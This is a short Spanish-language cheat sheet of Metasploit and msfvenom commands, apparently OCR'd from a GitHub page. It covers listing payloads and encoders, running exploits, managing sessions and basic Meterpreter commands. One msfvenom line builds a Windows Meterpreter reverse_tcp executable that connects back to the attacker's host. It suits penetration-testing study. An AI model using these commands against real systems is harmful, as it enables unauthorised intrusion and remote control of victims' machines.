 ```bash
msf6 tipo_modulo(ruta_modulo) > show payloads
```

Muestra una lista de los payloads (cargas útiles) disponibles para el módulo cargado.


```bash
msfvenom -l encoders
```

Al ejecutar este comando, se mostrará una lista de todos los encoders disponibles, junto con sus nombres y una breve descripción de su funcionalidad.


```bash
msfvenom -l payloads
```

Esto te proporcionará una lista de todos los payloads disponibles en tu instalación de Metasploit.

```bash
msf6 tipo_modulo(ruta_modulo) > exploit
```

Se utiliza para ejecutar el exploit que está cargado en la consola de Metasploit.


```bash
msf6 tipo_modulo(ruta_modulo) > sessions
```

Se utiliza para mostrar una lista de todas las sesiones de Meterpreter activas.

```bash
msf6 tipo_modulo(ruta_modulo) > sessions id_sesion
```

Se utiliza para cambiar el enfoque a una sesión de Meterpreter específica en lugar de mostrar una lista de todas las sesiones activas.


```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform SO LHOST=ip LPORT=puerto -f exe -o archivo.exe
```

Este comando genera un payload de Meterpreter para Windows que establecerá una conexión TCP inversa con el host de Metasploit especificado, utilizando la dirección IP y el puerto especificados, y guarda el payload generado en un archivo ejecutable.


# Comandos de Meterpreter 

1. **help**: Muestra una lista de comandos disponibles en Meterpreter y proporciona información sobre su uso.

2. **sysinfo**: Muestra información detallada sobre el sistema comprometido, incluyendo el nombre del sistema operativo, la arquitectura del procesador y la versión del kernel.

3. **shell**: Abre una shell interactiva en el sistema comprometido, lo que permite ejecutar comandos del sistema operativo directamente desde Meterpreter.
